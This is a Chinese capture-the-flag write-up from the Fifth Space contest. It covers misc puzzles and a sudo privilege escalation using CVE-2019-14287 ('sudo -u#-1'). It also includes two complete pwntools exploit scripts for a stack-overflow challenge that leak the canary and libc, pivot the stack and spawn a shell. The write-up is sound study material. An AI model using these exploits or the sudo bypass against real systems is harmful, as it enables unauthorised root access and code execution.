记第五空间比赛
MISC
loop
名字是循环，解压得到file文件，zip格式。解压file得到tarfile文件，TAR格式。继续解压tarfile得到zipfile,zip格式。然后不断循环下去。
写个shell脚本循环解压。
#!/bin/sh
unzip file
#while [ $? -eq 0 ]:#判断最后一个命令的退出状态是否为0
while [ $? = 0 ]:
do
tar -xf tarfile;rm tarfile
unzip zipfile;rm zipfile
done会得到一个flag文件，里面是flag。
philosopher
这个名字就很哲学♂ ，解压之后得到philosopher.exe。

里面隐藏了gif文件，用foremost处理得到一个exe文件夹和一个gif文件夹。

一开始很容易被gif文件夹里面的内容所吸引，然后进去看哲学。
但是真正的flag在exe文件夹下的00000000.exe中，里面包含一个FL4G文件夹，其中的105文件是损坏的PNG文件。

用101editor打开105文件。

明显看到一个IHDR块，PNG文件头数据块，PNG文件格式可以参考CTF wiki。前八个字节是89 50 4E 47 0D 0A 1A 0A。

所以修改前八个字节，这里只需要修改前四个字节就可以修复PNG文件，给105加上文件后缀名.png就能得到flag了，flag藏在PNG文件中。
flag{come_with_me_philosopher}
很哲学！出题人的还在flag中要求come_with_me_philosopher！
run
解压得到一个run.exe。能够直接运行是一个word文件，内容是Error！！！。

老规矩，利用binwalk看下里面有啥，里面东西挺杂的。

直接将run.exe提取到本地，里面还含有一个run.exe。

继续查看run.exe，发现其中含有TIFF格式的图片。

可以利用dd手工将文件提取出来，也可以将其放入windows中运行能够能够获得一个tif文件。后缀名改为.tiff。能够发现一个图片感觉像是少了一块。

拖入PS中，发现有两个图层。
不显示其中一个，就能将黑色部分展示出来。

这段代码就是将flag中偶数位字符加1，奇数位字符减1。逆着过来就是将处理过的flag偶数位减1，奇数位加一。
首先需要找到处理过的flag，flag应该在图片中了，利用strings将大于15的字符打印出来。strings -n 15 tif。在最末尾找到一串奇怪的字符串njCp1HJBPLVTxcMhUHDPwE7mPW。然后利用偶数位减1，奇数位加一的方法得到flag为mkBq0IICOMUUwdLiTICQvF6nOX。因为字符串可以用下标寻址。
#!/usr/bin/python
a = "njCp1HJBPLVTxcMhUHDPwE7mPW"
flag = ""
for i in range(len(a)):
if i%2 == 0:
flag += chr(ord(a[i])-1)
else :
flag += chr(ord(a[i])+1)
print flagflag{mkBq0IICOMUUwdLiTICQvF6nOX}
如果不放心可以把所有长度大于15的字符串都转换，然后试试就行了。strings -n 15 tif > flag.txt
#!/usr/bin/python
f = open('./flag.txt','r')
strings = f.read().split('\n')
strings.pop()
flag = ""
for i in strings:
for q in range(len(i)):
if q%2 == 0:
flag += chr(ord(i[q])-1)
else :
flag += chr(ord(i[q])+1)
print flag
flag = ""麒麟系统
题目给出了提示，并且给了ssh进去的用户名和端口，明确要求提权root权限。然后访问/root/flag，获取其中内容。
利用去年爆出的sudo（super user do）提权漏洞，ssh 登陆进去之后，利用sudo -u#-1就能获得root权限。这个漏洞利用前提是：用户首先需要为某个能执行其他的命令配置好sudoer文件。例如通过在/etc/sudoers添加下面的命令可以让用户test以非root身份运行/usr/bin/vim和/usr/bin/id。
test ALL = (ALL, !root) /usr/bin/vim
test ALL = (ALL, !root) /usr/bin/id对于test用户，可以使用带-u参数的sudo命令来指定运行命令的身份，例如，下面的命令将以用户beer的身份启动vim。
sudo -u beer vim在linux创建用户时，每个用户都有一个UID。0是root，1000一般是用户。在使用sudo命令的时候也可以指定用户的UID来代替用户名。例如
sudo -u#1000 vim就是指定用户test什么启动vim。
但是如果用户在使用sudo命令时指定UID为-1或者4294967295时，会以root身份执行命令，因为命令在将UID转化为对应用户的时候，会将这两个异常数字是为0，而0是root用户的id。这样导致了权限提升。
该漏洞影响范围内非常有限，只能在非标准配置的Linux下生效，大多数Linux服务器不受影响
漏洞参考链接，CVE号是CVE-2019-14287
sudo -u#-1 cat /root/flag就能获取flag了。
最后得到的flag{Bravo KYLIN-USER! Congratulations}
pwn
twice
正常的栈溢出漏洞，正常流程可以puts两次，第一次通过覆盖canary最低字节’\x00’，打印出canary以及栈地址。第二次利用栈溢出迁移栈空间到输入的位置，并且泄漏libc地址，进而得到libc中system和\bin\sh的地址。然后调用system(‘\bin\sh’)，getshell。
checksec发现开了以下的保护，canary，NX，Partial RELRO。

IDA反编译查看程序执行流程，存在两次输入并输出的机会，同时可以发现很明显的溢出漏洞read函数中，s的大小是rbp-60h。v3经过sub_40076D(80)。

第一次返回v2=89，第二次v2=112。都大于s的大小0x60=80。

涉及到的知识点：
- puts函数遇到\x00截断，并且在结尾会加上一个换行，在交互的时候需要注意
- 利用leave指令进行栈迁移，leave = move ebp,esp; pop ebp。需要考虑到pop ebp也要弹8个字节，所以应该构造的ebp应该是stack-0x70-8
- 泄露libc中的地址,然后利用libc database search或者LibcSearcher找到libc，然后得到system和/bin/sh的偏移
整个exp如下：
#! /usr/bin/env python
#coding:utf-8
##############################################
# @Filename: exp.py
# @Author: The Hawks
# @Date: 2020-06-27 22:00:11
# @Email: the_hawks@foxmail.com
##############################################
from pwn import *
#context(arch='amd64/i386', os='linux', log_level='debug')
context.log_level = 'debug'
context.binary = './pwn'
local = False
#local = True
if local:
io = process('./pwn')
else:
io = remote("121.36.59.116","9999")
code = ELF('./pwn')
sl = lambda s : io.sendline(s)
sd = lambda s : io.send(s)
sla = lambda x,y : io.sendlineafter(x,y)
sda = lambda x,y : io.sendafter(x,y)
rc = lambda n=4096 : io.recv(n)
rl = lambda : io.recvline()
ru = lambda s : io.recvuntil(s)
ia = lambda : io.interactive()
def exploit():
# First time cover canary lowest byte to leak canary
payload = 0x59 * 'A'
sda('>',payload)
ru(0x59 * 'A')
canary = u64(rc(7).rjust(8,'\x00'))
stack = u64(rc(6).ljust(8,'\x00'))
log.success('canary: ' + hex(canary)+'\nstack: ' + hex(stack))
# Second time overflow to migrate stack and leak libc and ret2 main
pop_rdi = 0x400923
leave_ret = 0x400879
puts_got = code.got['puts']
puts_plt = code.plt['puts']
main = code.sym['main']
payload = flat(pop_rdi, puts_got, puts_plt)+p64(main)
payload = payload.ljust(0x58,'\x00') + p64(canary) + p64(stack-0x70-8) + p64(leave_ret)
sda('>',payload)
ru('\n')
puts_addr = u64(rc(6).ljust(8,'\x00'))
system = puts_addr-0x2a300
binsh = puts_addr + 1169095
log.success('system: ' + hex(system)+'\nbinsh: ' + hex(binsh))
# Third time regain canary and stack
sda('>','A'*0x59)
ru('A'*0x59)
canary = u64(rc(7).rjust(8,'\x00'))
stack = u64(rc(6).ljust(8,'\x00'))
# canary won't change,but stack change
log.success('canary: ' + hex(canary)+'\nstack: ' + hex(stack))
# Last time system('\bin\sh')
payload = p64(pop_rdi)+p64(binsh)+p64(system)
payload = payload.ljust(0x58,'\x00')+p64(canary)+p64(stack-0x70-8) + p64(leave_ret)
sda('>',payload)
ia()
exploit()另外一种方法就是利用ibc_csu_init中的这段通用gadget来读取调用read函数来读取flat(pop_rdi,/bin/sh,system)到下一个ret的地址。

需要注意的是read函数拷贝的地址是在0x400924的ret时的栈顶位置，在这之前rsp加了8*7个字节。运行到0x400924的ret时，rsp到了stack+0x20的位置。
exp如下：
#!/usr/bin/python
# coding=utf-8
##############################################
# @Filename: exp_csu.py
# @Author: The Hawks
# @Date: 2020-06-27 22:41:05
# @Email: the_hawks@foxmail.com
##############################################
from pwn import *
#context(arch='amd64/i386', os='linux', log_level='debug')
context.log_level = 'debug'
#context.terminal = ['/usr/bin/tmux','splitw','-h']
context.binary = './pwn'
#local = False
local = True
if local:
io = process('./pwn')
else:
io = remote("121.36.59.116","9999")
code = ELF('./pwn')
sl = lambda s : io.sendline(s)
sd = lambda s : io.send(s)
sla = lambda x,y : io.sendlineafter(x,y)
sda = lambda x,y : io.sendafter(x,y)
rc = lambda n=4096 : io.recv(n)
rl = lambda : io.recvline()
ru = lambda s : io.recvuntil(s)
ia = lambda : io.interactive()
def dbgya():
print io.pid
#gdb.attach(io)
pause()
def dbg(addr):
raw_input('debug:')
gdb.attach(io, "b *" + addr)
def call_function(call_address, p1, p2, p3):
pl = p64(0x40091A)
pl += p64(0)
pl += p64(1)
pl += p64(call_address)
pl += p64(p3)
pl += p64(p2)
pl += p64(p1)
pl += p64(0x400900)
return pl
def exploit():
# First time cover canary lowest byte to leak canary
payload = 0x59 * 'A'
sda('>',payload)
ru(0x59 * 'A')
canary = u64(rc(7).rjust(8,'\x00'))
stack = u64(rc(6).ljust(8,'\x00'))
log.success('canary: ' + hex(canary)+'\nstack: ' + hex(stack))
# Second time overflow to migrate stack and ret2 read
pop_rdi = 0x400923
leave_ret = 0x400879
puts_got = code.got['puts']
puts_plt = code.plt['puts']
read_got = code.got['read']
main = code.sym['main']
payload = flat(pop_rdi, puts_got, puts_plt)
# stack+0x20 = stack-0x18+7*8
payload += call_function(read_got,0, stack+0x20, 0x100)
payload = payload.ljust(0x58,'\x00') + p64(canary) + p64(stack-0x70-8) + p64(leave_ret)
#dbgya()
sda('>',payload)
ru('\n')
puts_addr = u64(rc(6).ljust(8,'\x00'))
print hex(puts_addr)
system = puts_addr-0x2a300
binsh = puts_addr + 1169095
log.success('system: ' + hex(system)+'\nbinsh: ' + hex(binsh))
payload = p64(pop_rdi)+p64(binsh)+p64(system)
sl(payload)
ia()
exploit()read函数拷贝的地址可以不用是stack+0x20 = 0x58+78，因为在call调用read函数的时候，会把返回地址压入stack-112+0x50的位置，read的过程中，拷贝的地址如果能够覆盖该地址，就能实现控制程序执行流程，所以read的拷贝地址*也就是第二个参数可以是stack-112+80，其实read结束的时候，已经把栈上的内容给换了，在read函数ret的时候，就能把覆盖后的返回地址弹给eip。如果怕不能精准控制，可以通过填充ret指令来缓冲下。**
payload = flat(pop_rdi, puts_got, puts_plt)
# stack+0x20 = 0x58+7*8
#payload += call_function(read_got, 0, stack-0x70, 0x100)
payload += call_function(read_got, 0, stack-112+80, 0x100)
payload = payload.ljust(0x58,'\x00') + p64(canary) + p64(stack-0x70-8) + p64(leave_ret)
#dbgya()
sda('>',payload)
ru('\n')
puts_addr = u64(rc(6).ljust(8,'\x00'))
print hex(puts_addr)
system = puts_addr-0x2a300
binsh = puts_addr + 1169095
log.success('system: ' + hex(system)+'\nbinsh: ' + hex(binsh))
ret = 0x40087A
#payload = p64(ret)*11+p64(pop_rdi)+p64(binsh)+p64(system)
payload = p64(pop_rdi)+p64(binsh)+p64(system)总结
每次打比赛抱着学习的心态去学习就行了，不为成为赛棍，只为才艺精进，知识面拓展！
一直保持学习的状态，不断超越吧！